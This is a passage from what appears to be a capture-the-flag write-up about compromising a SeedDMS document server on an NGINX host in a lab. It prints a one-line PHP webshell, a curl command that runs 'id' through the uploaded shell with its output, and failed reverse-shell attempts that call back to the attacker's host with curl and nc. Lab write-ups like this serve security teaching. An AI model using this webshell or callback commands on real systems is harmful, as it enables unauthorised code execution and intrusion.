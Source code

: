
On Apache, this would prevent access to any file inside `/data`. But again,
this is NGINX.

### Webshell

It doesn’t look like I have access to upload to the root, but I’ll start
digging in folders. Once I get to `/Docs/Users/`, there’s two directories,
Michelle and Jack:

![image-20210514125936310](https://0xdfimages.gitlab.io/img/image-20210514125936310.png)

Based on the icon’s not being grayed out, I might have some permissions on
Michelle.

Clicking on that, there’s not a bunch of options at the top, including to Add
document:

![image-20210514130024685](https://0xdfimages.gitlab.io/img/image-20210514130024685.png)

I’ll upload my favorite simple PHP webshell:

    
    
    <?php system($_REQUEST["cmd"]); ?>
    

![image-20210514130144165](https://0xdfimages.gitlab.io/img/image-20210514130144165.png)

The document ID is 31.

    
    
    oxdf@parrot$ curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=id
    uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
    

That’s code execution! This file is deleted every 5-10 minutes, so I may have
to upload again, and the document id will increment as well.

### Reverse Shell Fail

I tried a bunch of things to get a reverse shell, but they all failed. When I
couldn’t even get `curl` to connect to my host, I guessed maybe a firewall,
but it was still acting weird.

    
    
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=curl http://10.10.14.7 2>&1'
    

Looking at a `nc` connection back to me, it also failed:

    
    
    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=nc 10.10.14.7 443 2>&1'
    Ncat: Permission denied.
    

Permission denied is interesting. I’ll look at the file:
